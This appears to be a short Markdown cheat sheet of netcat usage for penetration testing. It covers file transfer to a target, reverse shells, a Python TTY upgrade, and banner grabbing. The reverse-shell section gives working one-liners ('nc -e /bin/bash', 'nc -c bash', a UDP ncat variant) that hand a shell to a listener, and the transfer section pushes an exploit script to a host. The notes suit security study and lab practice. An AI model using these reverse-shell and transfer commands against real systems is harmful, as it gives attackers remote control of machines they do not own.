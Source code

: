 ### sending files
Listener:
`nc -lvp 4444 > incomig.txt` nc is a symlink of netcat  
TARGET HIGH PORTS  
Common users usually don't have access to ports under 1000  
`-l` - listening (opens port 4444 and pipe input into incoming.txt).  
`v` verbose `p` port 

Sender: 
`nc -nv 10.0.2.5 4444 < exploit.sh`  
`n` no DNS resolution  


### reverse shell 
Listener:
`nc -lvp 4444`

Target:  
`netcat 10.0.2.4 4444 -e /bin/bash` or `nc -c bash 10.0.0.1 4444`  
`-e` execute that program after connection -> that way you can send commends directly to opened shell via TCP connection (also possible with UDP `ncat --udp 10.0.0.1 4242 -e /bin/bash`)

Python tty (teletypewriter) wrapper:  
```bash
python-c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  
CTRL+Z  
stty raw -echo; fg  
```

### banner grabbing

`nc -vn 192.168.1.103 21`
